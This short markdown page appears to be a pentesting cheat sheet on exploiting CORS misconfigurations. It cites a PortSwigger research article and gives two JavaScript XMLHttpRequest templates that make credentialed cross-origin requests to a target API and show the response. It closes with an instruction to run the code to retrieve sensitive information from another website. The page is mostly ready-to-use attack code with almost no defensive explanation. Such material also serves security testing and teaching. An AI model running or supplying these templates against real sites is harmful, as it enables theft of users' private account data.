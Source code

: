 ## References -

- [Exploiting CORS misconfigurations for Bitcoins and bounties by James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

## Template code to retreive -

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://website.com/endpoint', true);
req.withCredentials = true;
req.send('{}');

function reqListener() {
    alert(this.responseText);
};
```

or

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
 if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
 alert(xhr.responseText);
 }
}
xhr.open('GET', 'http://targetapp/api/v1/user', true); 
xhr.withCredentials = true; 
xhr.send(null);
```
Run this code in console to retreive the sensitive info from other website.
